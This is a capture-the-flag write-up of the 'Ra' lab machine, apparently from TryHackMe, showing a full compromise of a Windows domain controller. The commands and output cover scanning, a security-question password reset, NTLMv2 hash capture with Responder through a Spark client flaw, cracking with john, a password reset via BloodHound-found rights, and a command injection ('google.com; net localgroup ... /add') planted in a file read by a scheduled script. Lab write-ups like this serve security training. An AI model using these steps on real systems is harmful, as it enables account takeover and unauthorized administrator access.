









# Ra 1.1

I started the machine with the classic nmap scan:
```bash
nmap -sC -sV -p- --min-rate=3500 10.10.254.167
```
output:
```bash
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
80/tcp    open  http                Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2023-11-15 14:03:20Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services
5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5223/tcp  open  ssl/jabber
5229/tcp  open  jaxflow?
5262/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5263/tcp  open  ssl/jabber
5269/tcp  open  xmpp                Wildfire XMPP Client
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp  open  ssl/jabber
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7070/tcp  open  http                Jetty 9.4.18.v20190429
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429
7777/tcp  open  socks5              (No authentication; connection not allowed by ruleset)
9090/tcp  open  zeus-admin?
9091/tcp  open  ssl/xmltec-xmlmail?
9389/tcp  open  mc-nmf              .NET Message Framing
49670/tcp open  msrpc               Microsoft Windows RPC
49672/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc               Microsoft Windows RPC
49674/tcp open  msrpc               Microsoft Windows RPC
49695/tcp open  msrpc               Microsoft Windows RPC
49903/tcp open  msrpc               Microsoft Windows RPC
```
We now have a bunch of ports so i started take a look in a sequential way, starting by the port 80.

# Port 80

visiting the website on port 80 we can see this page
	

	
we have an interesting button for `Reset password`.<br>
By clicking the button the browser opens a new window redirecting us to `fire.windcorp.thm` so we need to add the domain to the /etc/hosts:
```bash
echo '10.10.254.167	windcorp.thm  fire.windcorp.thm DC01.windcorp.thm'	>> /etc/hosts
```
now we can visit the reset password domain:
	

	
So in order to reset the user pass we need an username and one of the paramethers above.<br>
So i started creating a list of users based on the people names i see on the website:
	

	

	
In the second pic we can se the employee lilyle with his pet sparky, and the reset form ask us for a secuity answer what is Pet Name... that's perfect!!<br>
So we just need to input the username lilyle and chose pet name as security answer as Sparky as the foto url says.

# Lilyle

	

	

	
now we have the password for an user so we can test it in smb:
```bash
crackmapexec smb 10.10.254.167 -u lilyle -p [REDACTED] 
```
output:
```bash
SMB         10.10.254.167   445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.254.167   445    FIRE             [+] windcorp.thm\lilyle:[REDACTED] 
```
We have a successful login, that means we can login in smb with this user.<br>
We can't have a shell because lilyle is not in the `Remote Management Users`.<br>
So i started enumerating the smb:
```bash
crackmapexec smb 10.10.254.167 -u lilyle -p [REDACTED] --shares
```
output:
```bash
SMB         10.10.254.167   445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.254.167   445    FIRE             [+] windcorp.thm\lilyle:[REDACTED] 
SMB         10.10.254.167   445    FIRE             [+] Enumerated shares
SMB         10.10.254.167   445    FIRE             Share           Permissions     Remark
SMB         10.10.254.167   445    FIRE             -----           -----------     ------
SMB         10.10.254.167   445    FIRE             ADMIN$                          Remote Admin
SMB         10.10.254.167   445    FIRE             C$                              Default share
SMB         10.10.254.167   445    FIRE             IPC$            READ            Remote IPC
SMB         10.10.254.167   445    FIRE             NETLOGON        READ            Logon server share 
SMB         10.10.254.167   445    FIRE             Shared          READ            
SMB         10.10.254.167   445    FIRE             SYSVOL          READ            Logon server share 
SMB         10.10.254.167   445    FIRE             Users           READ            

```
We have read access on a bunch of shares, i started from the non default and most odd one: `Shared`
```bash
smbclient \\\\10.10.254.167\\Shared -U lilyle
```
```bash
smb: \> ls
  .                                   D        0  Sat May 30 02:45:42 2020
  ..                                  D        0  Sat May 30 02:45:42 2020
  Flag 1.txt                          A       45  Fri May  1 17:32:36 2020
  spark_2_8_3.deb                     A 29526628  Sat May 30 02:45:01 2020
  spark_2_8_3.dmg                     A 99555201  Sun May  3 13:06:58 2020
  spark_2_8_3.exe                     A 78765568  Sun May  3 13:05:56 2020
  spark_2_8_3.tar.gz                  A 123216290  Sun May  3 13:07:24 2020

                15587583 blocks of size 4096. 10906632 blocks available
```
# Buse

Inside the shared folder there is an executable name spark_2_8_3.exe<br>
The Executable is probably running in by some user in the machine. So i searched online for some exploits of this version, and found [this](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md).<br>
via this poc we can get the NTLM hash of a user sending a malicious link via the mail client we have.<br>
So i setuped the exploit like so:
	

	
Now that we are logged in we can search a victim to send the message to to get his hash.<br>
But to intercept the hash we need to start responder to fake SMTP server:
```bash
responder -I tun0
```
Now we just need to send the malicious message to the victim.<br>
For the destination user i chose buse because from the users picture above we can see that the user is online.<br>
So now we need to send this message:
	

	
We can see the intercepted NTLM hash fro responder:
```bash
[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.226.131
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:581eb034fb28c39c:54A0D21F2C7F9C9FC662887D404ADBE6:010100000000
00003016F4F0AEBAD60[REDACTED]F4E9E879FB75EC17102D80D7E32C45E88740A0010000000
0000000000000000000000000000090000000000000000000000
[*] Skipping previously captured hash for WINDCORP\buse
```
now we can save it and decrypt with john:
```bash
echo '00003016F4F0AEBAD6[REDACTED]F4E9E879FB75EC17102D80D7E32C45E88740A00100000000000000000000000000000000000090000000000000000000000' > buse.hash 
```
now time to crack it:
```bash
john buse.hash -w=/usr/share/wordlists/rockyou.txt
```
output:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]      (buse)
1g 0:00:00:02 DONE (2020-11-14 23:27) 0.3355g/s 993073p/s 993073c/s 993073C/s v0yage..uya051
Session completed
```
Finally we can log in as buse user:
```bash
evil-winrm -i windcorp.thm -u buse -p '[REDACTED]' 
```

# Brittanycr

We are in!<br>
Now we can run some enumeration commands:
```cmd
whoami /all
```
output:
```cmd
USER INFORMATION
----------------

User Name     SID
============= ============================================
windcorp\buse S-1-5-21-555431066-3599073733-176599750-5777


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                   Alias            S-1-5-32-548                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
WINDCORP\IT                                 Group            S-1-5-21-555431066-3599073733-176599750-5865 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
Inside the C:\Scripts folder there are those 2 files:
```cmd
dir C:\Scripts\
```
output:
```cmd
    Directory: C:\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2020   5:53 AM           4119 checkservers.ps1
-a----       11/14/2020  10:14 AM             31 log.txt

```
Those are like cron tab that are runned by the Administrator every minute in fact the log.txt are update every minutes.<br>
To take advantage of the script we need to see it's content:
```cmd
type checkservers.ps1
```
output:
```powershell
# reset the lists of hosts prior to looping
$OutageHosts = $Null
# specify the time you want email notifications resent for hosts that are down
$EmailTimeOut = 30
# specify the time you want to cycle through your host lists.
$SleepTimeOut = 45
# specify the maximum hosts that can be down before the script is aborted
$MaxOutageCount = 10
# specify who gets notified
$notificationto = "brittanycr@windcorp.thm"
# specify where the notifications come from
$notificationfrom = "admin@windcorp.thm"
# specify the SMTP server
$smtpserver = "relay.windcorp.thm"

# start looping here
Do{
    $available = $Null
    $notavailable = $Null
    Write-Host (Get-Date)
    
    # Read the File with the Hosts every cycle, this way to can add/remove hosts
    # from the list without touching the script/scheduled task,
    # also hash/comment (#) out any hosts that are going for maintenance or are down.
    get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
    ForEach-Object {
        $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
        Invoke-Expression $p
    if($p)
        {
         # if the Host is available then just write it to the screen
         write-host "Available host ---> "$_ -BackgroundColor Green -ForegroundColor White
         [Array]$available += $_
        }
    else
        {
         # If the host is unavailable, give a warning to screen
         write-host "Unavailable host ------------> "$_ -BackgroundColor Magenta -ForegroundColor White
         $p = Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue
         if(!($p))
           {
            # If the host is still unavailable for 4 full pings, write error and send email
            write-host "Unavailable host ------------> "$_ -BackgroundColor Red -ForegroundColor White
            [Array]$notavailable += $_
    
            if ($OutageHosts -ne $Null)
                {
                    if (!$OutageHosts.ContainsKey($_))
                    {
                     # First time down add to the list and send email
                     Write-Host "$_ Is not in the OutageHosts list, first time down"
                     $OutageHosts.Add($_,(get-date))
                     $Now = Get-date
                     $Body = "$_ has not responded for 5 pings at $Now"
                     Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                      -Subject "Host $_ is down" -SmtpServer $smtpserver
                    }
                    else
                    {
                        # If the host is in the list do nothing for 1 hour and then remove from the list.
                        Write-Host "$_ Is in the OutageHosts list"
                        if (((Get-Date) - $OutageHosts.Item($_)).TotalMinutes -gt $EmailTimeOut)
                        {$OutageHosts.Remove($_)}
                    }
                }
            else
                {
                    # First time down create the list and send email
                    Write-Host "Adding $_ to OutageHosts."
                    $OutageHosts = @{$_=(get-date)}
                    $Body = "$_ has not responded for 5 pings at $Now"
                    Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                     -Subject "Host $_ is down" -SmtpServer $smtpserver
                }
           }
        }
    }
    # Report to screen the details
    $log = "Last run: $(Get-Date)"
    write-host $log
    Set-Content -Path C:\scripts\log.txt -Value $log
    Write-Host "Available count:"$available.count
    Write-Host "Not available count:"$notavailable.count
    Write-Host "Not available hosts:"
    $OutageHosts
    Write-Host ""
    Write-Host "Sleeping $SleepTimeOut seconds"
    sleep $SleepTimeOut
    if ($OutageHosts.Count -gt $MaxOutageCount)
    {
        # If there are more than a certain number of host down in an hour abort the script.
        $Exit = $True
        $body = $OutageHosts | Out-String
        Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
         -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
    }
}
while ($Exit -ne $True)
```
We have this line here:
```powershell
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
  $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
  Invoke-Expression $p
```
So in order to execute code we need to access the brittanycr user and change the hosts file with a powershell code injection.<br>
To Pivot in to the next user i used the new verions of bloodhound comunity edition that can be downloaded [here](https://github.com/SpecterOps/BloodHound)<br>
So i uploaded sharpound using evil-winrm:
```bash
upload /home/kali/Pentest/SharpHound.exe
.\SharpHound.exe
```
Once we have our domain files we can download the json files and drag them inside BloodHound:
	

	
We have generic all over brittanycr user so that means we can change her password and add her to Remote Management Users:
```cmd
net user brittanycr Password1234.
net localgroup 'Remote Management Users' brittanycr /add
```
Now we can log in with brittanycr user with evil-winrm:
```bash
evil-winrm -i windcorp.thm -u brittanycr -p Password1234.
```

# Administrator


We are now in and we can see the content of hosts.txt and also modify it:
```cmd
type hosts.txt
```
output:
```
google.com
cisco.com


```
I changed the hosts file with this:
```cmd
google.com; net localgroup 'Administrators' buse /add
```
Now after one minute we can login again with buse user and we are in Admin group!!
	

	
